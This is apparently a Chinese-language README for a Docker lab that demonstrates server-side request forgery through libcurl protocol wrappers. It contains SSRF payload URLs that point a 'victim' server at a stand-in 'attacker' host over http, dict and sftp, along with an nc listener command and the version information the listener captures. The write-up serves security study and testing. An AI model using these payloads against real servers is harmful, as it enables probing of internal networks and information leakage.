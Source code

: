 ## SSRF libcurl protocol wrappers

参数url没有做限制，可以访问内网地址。请求过程中使用到了liburl库，并且liburl配置不当，可以让攻击者使用除http(s)之外的多个libcurl protocol wrappers，比如ftp://xxx.com/file会让服务器发起ftp请求

参考：

[SSRF libcurl protocol wrappers利用分析][1]

## docker run 

```
sudo docker run --name ssrf_curl -p 8084:80 janes/ssrf_curl
```

测试加载图片：

```
http://victim:8084/ssrf_curl.php?url=http://download.easyicon.net/png/1199986/96/
```

在另外一台机器上开 nc监听

```
nc -lvp 2222

http://victim:8084/ssrf.php?url=http://attacker:2222/
```

## 可利用的协议

文章中指出可利用的协议

```
SSH (scp://, sftp://)
POP3
IMAP
SMTP
FTP
DICT
GOPHER
TFTP
```

libcurl 支持的协议：

```
$ curl -V

Protocols:
dict file ftp ftps gopher http 
https imap imaps ldap ldaps pop3 
pop3s rtmp rtsp scp sftp smb 
smbs smtp smtps telnet tftp  
```

## 信息泄漏

* dict 

```
http://victim:8084/ssrf.php?url=dict://attacker:2222/
```

nc 端：

```
CLIENT libcurl 7.35.0

QUIT
```

* sftp(需要curl编译安装libssh库)

```
http://victim:8084/ssrf_curl.php?url=sftp://attacker:2222/
```

## 利用GOPHER协议伪造发送邮件

参见 [SSRF libcurl protocol wrappers利用分析]

[1]: http://drops.wooyun.org/papers/13948